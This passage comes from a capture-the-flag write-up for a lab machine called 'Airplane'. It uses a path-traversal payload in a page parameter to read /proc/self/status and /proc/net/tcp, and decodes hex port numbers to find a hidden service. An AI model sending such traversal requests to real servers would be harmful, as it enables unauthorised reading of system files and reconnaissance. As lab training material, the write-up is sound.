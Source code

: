 The fuzzing returns many files but the most interesting ones are those from the `/proc` directory. We can see the `/proc/self/status` that provides valuable information about the running process i.e. the web server.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Airplane/Scans/Web]
└─$ curl -s 'http://airplane.thm:8000/?page=../../../../proc/self/status'
Name:   python3
Umask:  0022
State:  S (sleeping)
Tgid:   542
Ngid:   0
Pid:    542
PPid:   1
TracerPid:      0
Uid:    1001    1001    1001    1001
Gid:    1001    1001    1001    1001
FDSize: 128
Groups: 1001 
<SNIP>
```

We see that the web server runs as the user Hudson. We know this by comparing the UID in the `/proc/self/status` with that in the `/etc/passwd` file. We can also read the `/proc/net/tcp` file that provides information about currently active TCP connections.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Airplane/Scans/Web]
└─$ curl -s 'http://airplane.thm:8000/?page=../../../../proc/net/tcp'      
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 15531 1 0000000000000000 100 0 0 10 0                     
   1: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 19765 1 0000000000000000 100 0 0 10 0                     
   2: 0100007F:0277 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 17930 1 0000000000000000 100 0 0 10 0                     
   3: 00000000:1F40 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1001        0 21680 1 0000000000000000 100 0 0 10 0                     
   4: 00000000:17A0 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1001        0 20211 1 0000000000000000 100 0 0 10 0                     
   5: 3F9E0A0A:1F40 1317080A:9930 01 00000000:00000000 00:00000000 00000000  1001        0 331676 1 0000000000000000 48 4 30 10 10    
```

We can see that the target listens on three ports on the address 0.0.0.0 represented by `00000000`. Remember that our scan returned only two ports i.e. 22 and 8000. This means that the third port is not part of the top 1000 ports. Let's convert these numbers from hexadecimal to decimal.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Airplane/Scans/Web]
└─$ echo $((0x0016))
22

┌──(pentester㉿kali)-[~/…/Challenge/Airplane/Scans/Web]
└─$ echo $((0x01F40))
8000

┌──(pentester㉿kali)-[~/…/Challenge/Airplane/Scans/Web]
└─$ echo $((0x017A0))
6048
```
